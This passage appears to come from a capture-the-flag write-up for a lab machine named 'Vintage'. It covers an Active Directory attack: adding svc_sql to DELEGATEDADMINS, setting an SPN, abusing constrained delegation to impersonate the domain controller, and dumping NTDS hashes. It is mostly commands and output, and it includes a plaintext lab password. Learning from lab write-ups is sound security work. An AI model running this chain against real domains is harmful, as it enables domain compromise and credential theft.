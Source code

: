 ```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'

[+] SVC_SQL added to DELEGATEDADMINS

getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"svc_sql":"Zer0the0ne"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in svc_sql.ccache

export KRB5CCNAME=svc_sql.ccache
```
But at this point, if we try to impersonate with **svc_sql** we will have this error :

```bash
getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'svc_sql'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Impersonating DC01$
[*] 	Requesting S4U2self
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user svc_sql does not have constrained delegation permisions or impersonated user does not exist
```
This is because **svc_sql** don't have a valid **SPN** but we can add it with **c.neri**

```bash
export KRB5CCNAME=C.Neri.ccache

bloodyAD --host dc01.vintage.htb -d vintage.htb -k set object 'svc_sql' servicePrincipalName -v 'cifs/svc_sql'

[+] svc_sql's servicePrincipalName has been updated
```
Request a TGT again

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"svc_sql":"REDACTED"
```
And now we will be able to impersonate

```bash
export KRB5CCNAME=svc_sql.ccache

getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'svc_sql'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Impersonating DC01$
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in DC01$.ccache
```
```bash
nxc smb dc01.vintage.htb --use-kcache --ntds --user Administrator

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\DC01$ from ccache
SMB         dc01.vintage.htb 445    dc01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         dc01.vintage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:46...de:
```